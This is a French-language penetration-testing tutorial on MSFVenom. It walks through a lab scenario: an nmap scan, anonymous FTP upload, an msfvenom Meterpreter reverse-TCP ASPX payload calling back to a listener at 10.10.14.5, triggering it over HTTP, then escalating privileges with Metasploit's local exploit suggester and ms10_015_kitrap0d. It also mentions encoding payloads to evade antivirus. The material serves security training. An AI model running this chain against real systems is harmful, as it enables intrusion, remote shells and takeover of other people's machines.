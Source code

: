 # Introduction à MSFVenom

MSFVenom est un outil intégré à Metasploit qui résulte de la fusion des anciens outils **MSFPayload** et **MSFEncode**. Il permet de générer des charges utiles (**payloads**) et de les encoder pour faciliter leur exécution, notamment pour contourner les mécanismes de détection (antivirus, IDS/IPS).

* **Avant MSFVenom** : Il fallait d'abord générer un **shellcode** avec MSFPayload, puis l'encoder avec MSFEncode.
* **Aujourd’hui** : MSFVenom combine ces deux étapes, permettant de créer des payloads plus facilement pour différentes architectures et systèmes d’exploitation tout en offrant des options d'encodage.

#### <mark style="color:orange;">**Création de Payloads**</mark>

**Exemple de scénario :** Supposons qu'on trouve un serveur FTP avec un accès anonyme (ou avec de faibles identifiants) et qu’il soit lié à un service web accessible via HTTP.

<mark style="color:orange;">**Scan de la cible**</mark>

L’objectif est d’identifier les ports ouverts et services vulnérables sur la machine cible avec **Nmap**.

```
nmap -sV -T4 -p- 10.10.10.5

```

<mark style="color:orange;">**Accès FTP**</mark>

Une fois que l'accès FTP est établi, il est possible de lister les fichiers disponibles<mark style="color:orange;">.</mark>

```
ftp 10.10.10.5
ls
```

Si un répertoire comme **aspnet\_client** est présent, on peut en déduire qu'on peut y téléverser des **.aspx** shells.

<mark style="color:orange;">**Génération du Payload**</mark>

On utilise MSFVenom pour générer une charge utile **Meterpreter reverse TCP** pour un serveur Windows, en spécifiant le format **ASPX**.

{% code fullWidth="true" %}
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=1337 -f aspx > reverse_shell.aspx
```
{% endcode %}

<mark style="color:orange;">**Exécution du Payload**</mark>

Une fois le fichier reverse\_shell.aspx généré, on doit démarrer un listener dans Metasploit pour écouter la connexion reverse. Configurer Multi/Handler

Dans Metasploit, on utilise le module multi/handler pour écouter les connexions&#x20;

```
msfconsole -q
use multi/handler
set LHOST 10.10.14.5
set LPORT 1337
run

```

<mark style="color:orange;">**Lancer le Payload**</mark>

On accède au fichier **reverse\_shell.aspx** via le navigateur et le payload se déclenche, permettant une session **Meterpreter** sur la cible.

```
http://10.10.10.5/reverse_shell.aspx

```

#### <mark style="color:orange;">**Escalade de Privilèges**</mark>

Le module **Local Exploit Suggester** de Metasploit peut être utilisé pour suggérer des exploits locaux qui permettent d’obtenir des privilèges plus élevés sur la machine cible.

```
search local exploit suggester
use 2376
set session 2
run

```

Le système propose plusieurs vulnérabilités exploitables, comme **ms10\_015\_kitrap0d**, qu'on peut tester pour obtenir des privilèges administratifs.

<mark style="color:orange;">**Exploitation locale**</mark>

Une fois qu'un exploit local est sélectionné, on peut l'exécuter pour escalader les privilèges.

```
use exploit/windows/local/ms10_015_kitrap0d
set LPORT 1338
set SESSION 3
run

```
